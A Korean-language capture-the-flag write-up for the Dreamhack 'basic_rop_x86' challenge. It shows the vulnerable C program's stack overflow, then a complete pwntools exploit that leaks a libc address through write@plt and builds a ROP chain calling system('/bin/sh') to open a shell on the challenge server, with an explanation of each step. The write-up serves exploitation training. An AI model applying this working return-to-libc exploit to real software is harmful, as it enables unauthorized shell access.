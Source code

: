 basic_rop_x86 라이트업
===============


## 분석

### 보호 기법

* 일단 적용된 보호 기법을 보면 ASLR 있고, NX있고, 카나리와 pie는 없다.
* 카나리가 없기 때문에 sfp, ret과 그 뒷 주소를 마음대로 변경해도 된다.


### 코드 분석

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

buf 변수의 크기는 0x40이지만 read 함수에서 buf 변수에 0x400 크기의 입력을 받고 있어 버퍼 오버플로우가 발생한다.



## 익스플로잇

x64 아키텍쳐에서는 함수를 부를 때 함수의 주소와 함께 이미 레지스터에 저장되어 있는 값들을 인자로 실행되어 페이로드에 (레지스터 세팅 과정) + (함수의 주소) 형식으로 전달해준다.

그러나 x86의 경우 레지스터가 아닌 스택에서 값을 pop하여 인자로 전달하며, 순서 또한 반대로 (함수의 주소) + (pop 과정)의 형태로 페이로드를 작성해야 한다. 


### 익스플로잇 시나리오


#### 1단계: Libc 주소 Leak
스택 오버플로우를 일으켜 프로그램의 실행 흐름을 **write@plt**로 변경해서 **read@got**의 실제 주소(Libc의 read 함수 주소)를 알아낸다.


#### 2단계: 셸 따내기
1단계에서 얻은 정보(system 함수와 /bin/sh 문자열의 주소 등)를 사용한다.  ROP 체인 구성하고, 셸 따내면 된다.



### 익스플로잇 코드


```python
from pwn import *

p = remote("host8.dreamhack.games", 10074)
e = ELF("./basic_rop_x86")
libc = ELF("./libc.so.6")

r = ROP(e)

read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh_offset = list(libc.search(b"/bin/sh"))[0]

pop_ret = r.find_gadget(['pop ebp', 'ret'])[0]
pop2_ret = r.find_gadget(['pop edi', 'pop ebp', 'ret'])[0]
pop3_ret = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

payload = b'A' * 0x48
payload += p32(write_plt)
payload += p32(pop3_ret)
payload += p32(1) + p32(read_got) + p32(4)
payload += p32(main)

p.send(payload)
p.recvuntil(b'A' * 0x40)

read = u32(p.recvn(4))
libc_base = read - read_offset
system = libc_base + system_offset
sh = libc_base + sh_offset

print(hex(libc_base))
print(hex(system))

payload = b'A' * 0x48
payload += p32(system)
payload += p32(pop_ret)
payload += p32(sh)

p.send(payload)
p.recvuntil(b'A' * 0x40)

p.interactive()
```


#### 코드 분석

#### 1. 첫 번째 ROP 체인 구성 (libc 주소 leak)

* **`write_plt`:** `$RET$` 주소에 **`write@plt`** 주소를 덮어쓴다. main이 반환될 때 대신 `write` 함수가 실행된다.
* **`pop3_ret`:** `write` 함수 호출 후 스택을 정리하기 위한 ROP 가젯. 실행되면 스택에서 3개의 4바이트 값(인자 $3$개)을 pop해서 EBP, EDI, ESI$에 넣고 `ret`한다. 

#### 2. Libc 베이스 주소 계산
* `p.recvn(4)`를 통해 출력된 4 바이트(`read` 함수 주소)를 받는다.
* `libc_base = read - read_offset`을 계산하여 Libc 라이브러리가 로드된시작 주소를 구한다.
* system 함수 주소와 /bin/sh 문자열 주소를 libc_base에 오프셋을 더해서 계산한다.


#### 3. 두 번째 ROP 체인 구성 (쉘 따내기)
* **`p32(system)`:** `RET` 주소에 system 함수의 실제 주소를 덮어쓴다.
* **`p32(pop_ret)`:** system 함수 호출 후 스택을 정리하기 위한 가젯.
* **`p32(sh)`:** `system 함수의 첫 번째 인자로 `/bin/sh` 의 주소를 배치한다.


### 실행 결과

<img width="832" height="153" alt="image" src="https://github.com/user-attachments/assets/330fa515-5f63-4e53-a98f-153860ce687e" />



